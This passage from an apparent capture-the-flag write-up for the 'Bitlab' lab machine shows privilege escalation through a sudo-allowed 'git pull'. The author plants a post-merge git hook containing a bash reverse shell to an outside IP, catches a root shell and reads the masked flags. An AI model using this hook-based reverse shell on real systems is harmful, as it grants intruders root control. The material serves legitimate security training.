      clave:x:1000:1000::/home/clave:/bin/bash
    
      www-data@bitlab:/var/www/html/profile$ ls -lash /home
      total 12K
      4.0K drwxr-xr-x  3 root  root  4.0K Feb 28  2019 .
      4.0K drwxr-xr-x 24 root  root  4.0K Dec 31  2018 ..
      4.0K drwxr-xr-x  4 clave clave 4.0K Aug  8  2019 clave
    

Apparently clave is the only user on this box so we have to find a way to privesc to him. However let's not forget, earlier on we saw the php script which could execute a git pull command as root from a potentially low privilege user such as www-data, so we run sudo -l to check if it is true:
    
    
    
      www-data@bitlab:/var/www/html/profile$ sudo -l
      Matching Defaults entries for www-data on bitlab:
          env_reset, exempt_group=sudo, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
      User www-data may run the following commands on bitlab:
          (root) NOPASSWD: /usr/bin/git pull
    
    

So it looks like we were right, now we just have to head over to the .git directory and find the hook directory
    
    
    
      www-data@bitlab:/var/www/html/profile$ ls -lash
      total 124K
      4.0K drwxr-xr-x 3 root root 4.0K Apr 29 18:58 .
      4.0K drwxr-xr-x 5 root root 4.0K Jul 30  2019 ..
      4.0K drwxr-xr-x 8 root root 4.0K Apr 29 18:58 .git
      4.0K -rw-r--r-- 1 root root   42 Feb 26  2019 .htaccess
      4.0K -rw-r--r-- 1 root root  110 Jan  4  2019 README.md
       92K -rw-r--r-- 1 root root  91K Jan  5  2019 developer.jpg
      8.0K -rw-r--r-- 1 root root 4.1K Jan  4  2019 index.php
      4.0K -rw-r--r-- 1 root root   61 Apr 29 18:58 reverse.php
      www-data@bitlab:/var/www/html/profile$ cd .git
      www-data@bitlab:/var/www/html/profile/.git$ ls -lash
      total 60K
      4.0K drwxr-xr-x  8 root root 4.0K Apr 29 18:58 .
      4.0K drwxr-xr-x  3 root root 4.0K Apr 29 18:58 ..
      4.0K -rw-r--r--  1 root root  317 Apr 29 18:58 FETCH_HEAD
      4.0K -rw-r--r--  1 root root   23 Jan  4  2019 HEAD
      4.0K -rw-r--r--  1 root root   41 Apr 29 18:58 ORIG_HEAD
      4.0K drwxr-xr-x  2 root root 4.0K Jan  4  2019 branches
      4.0K -rw-r--r--  1 root root  266 Jan  4  2019 config
      4.0K -rw-r--r--  1 root root   73 Jan  4  2019 description
      4.0K drwxr-xr-x  2 root root 4.0K Jan  4  2019 hooks
      4.0K -rw-r--r--  1 root root  369 Apr 29 18:58 index
      4.0K drwxr-xr-x  2 root root 4.0K Jan  4  2019 info
      4.0K drwxr-xr-x  3 root root 4.0K Jan  4  2019 logs
      4.0K drwxr-xr-x 31 root root 4.0K Apr 29 18:58 objects
      4.0K -rw-r--r--  1 root root  114 Jan  4  2019 packed-refs
      4.0K drwxr-xr-x  5 root root 4.0K Jan  4  2019 refs
      www-data@bitlab:/var/www/html/profile/.git$ cd hooks
    

Taking a look at the githooks manpage: 
    
    
      man githooks
    
    

We are hinted towards creating a post-merge hook in this directory, so let's try to do so:
    
    
    
      www-data@bitlab:/var/www/html/profile/.git/hooks$ touch post-merge
      **touch: cannot touch 'post-merge': Permission denied**
    
      www-data@bitlab:/var/www/html/profile/.git/hooks$ ls -lash
      total 56K
      4.0K drwxr-xr-x 2 **root root** 4.0K Jan  4  2019 .
      4.0K drwxr-xr-x 8 **root root** 4.0K Apr 29 18:58 ..
      4.0K -rwxr-xr-x 1 **root root**  478 Jan  4  2019 applypatch-msg.sample
      4.0K -rwxr-xr-x 1 **root root**  896 Jan  4  2019 commit-msg.sample
      4.0K -rwxr-xr-x 1 **root root** 3.3K Jan  4  2019 fsmonitor-watchman.sample
      4.0K -rwxr-xr-x 1 **root root**  189 Jan  4  2019 post-update.sample
      4.0K -rwxr-xr-x 1 **root root**  424 Jan  4  2019 pre-applypatch.sample
      4.0K -rwxr-xr-x 1 **root root** 1.7K Jan  4  2019 pre-commit.sample
      4.0K -rwxr-xr-x 1 **root root** 1.4K Jan  4  2019 pre-push.sample
      8.0K -rwxr-xr-x 1 **root root** 4.8K Jan  4  2019 pre-rebase.sample
      4.0K -rwxr-xr-x 1 **root root**  544 Jan  4  2019 pre-receive.sample
      4.0K -rwxr-xr-x 1 **root root** 1.5K Jan  4  2019 prepare-commit-msg.sample
      4.0K -rwxr-xr-x 1 **root root** 3.6K Jan  4  2019 update.sample
    

And we get permission denied because everything in this directory is owned by the root user. However we can simply copy the profile folder elsewhere where we have writing access, such as /tmp, For this example we'll use the /dev/shm alternative
    
    
    
      www-data@bitlab:/var/www/html/profile/.git/hooks$ cd ..
      www-data@bitlab:/var/www/html/profile/.git$ cd ..
      www-data@bitlab:/var/www/html/profile$ cd ..
      www-data@bitlab:/var/www/html$ mdir /dev/shm/nowhere
      bash: mdir: command not found
      www-data@bitlab:/var/www/html$ mkdir /dev/shm/nowhere
      www-data@bitlab:/var/www/html$ cp -r profile/ /dev/shm/nowhere/
      www-data@bitlab:/var/www/html$ ls -lash /dev/shm
      total 0
      0 drwxrwxrwt  3 root     root       60 Apr 29 19:36 .
      0 drwxr-xr-x 19 root     root     3.9K Apr 29 08:15 ..
      0 drwxr-xr-x  3 www-data www-data   60 Apr 29 19:36 nowhere
    

And as you can see, since we copied the entire directory recursively it has not been able to preserve the root only writing rights, which means that us (www-data) can write to it. So let's do it:
    
    
    
      www-data@bitlab:/var/www/html$ cd /dev/shm/nowhere/
      www-data@bitlab:/dev/shm/nowhere$ cd .git/
      bash: cd: .git/: No such file or directory
      www-data@bitlab:/dev/shm/nowhere$ cd profile
      www-data@bitlab:/dev/shm/nowhere/profile$ cd .git
      www-data@bitlab:/dev/shm/nowhere/profile/.git$ cd hooks/
      www-data@bitlab:/dev/shm/nowhere/profile/.git/hooks$ touch post-merge
      www-data@bitlab:/dev/shm/nowhere/profile/.git/hooks$ chmod +x touch-merge
      chmod: cannot access 'touch-merge': No such file or directory
      www-data@bitlab:/dev/shm/nowhere/profile/.git/hooks$ chmod +x post-merge
      www-data@bitlab:/dev/shm/nowhere/profile/.git/hooks$ vi post-merge
    

And from there we can spawn a shell using vi: 
    
    
      #!/bin/bash
    
      bash -c 'bash -i >& /dev/tcp/10.10.14.11/9002 0>&1'
      ~
      ~
      ~
      ~
      ~
      :wq
    

Save it, then execute said git pull to update the repository 
    
    
    
      www-data@bitlab:/dev/shm/nowhere/profile/.git/hooks$ vi post-merge
      www-data@bitlab:/dev/shm/nowhere/profile$ clearooks$ cd ../..
      www-data@bitlab:/dev/shm/nowhere/profile$ ls
      README.md  developer.jpg  index.php  reverse.php
      www-data@bitlab:/dev/shm/nowhere/profile$ sudo git pull
      Already up to date.
    
    

Obviously there's nothing to pull, everything is already up to date, so we need to commit something:

    
    
    
      www-data@bitlab:/dev/shm/nowhere/profile$ sudo git pull
      Already up to date.
      www-data@bitlab:/dev/shm/nowhere/profile$ cat .git/config
      [core]
              repositoryformatversion = 0
              filemode = true
              bare = false
              logallrefupdates = true
      [remote "origin"]
              url = ssh://git@localhost:3022/root/profile.git
              fetch = +refs/heads/*:refs/remotes/origin/*
      [branch "master"]
              remote = origin
              merge = refs/heads/master
    

Looking at the .git/config file we see that it is running a ssh command on port 3022, which means that it doesn't matter if we copy the entire repository in an other directory, whatever has to get pulled will be pulled from the same place. And in this case; git@localhost:3022/root/profile.git So we just have to do a git pull, which will be executed as root, and hopefully we'll have root access on the box.
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/6 ] [~]
      → nc -lvnp 9002
      listening on [any] 9002 ...
      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.114] 35796
      root@bitlab:/dev/shm/nowhere/profile# id
      id
      uid=0(root) gid=0(root) groups=0(root)
      root@bitlab:/dev/shm/nowhere/profile# cat /home/clave/user.txt
      cat /home/clave/user.txt
      1eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
      root@bitlab:/dev/shm/nowhere/profile# cat /root/root.txt
      cat /root/root.txt
      8dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print out both the user and the root flags. 

## **Conclusion**

Here we can see the progress graph :

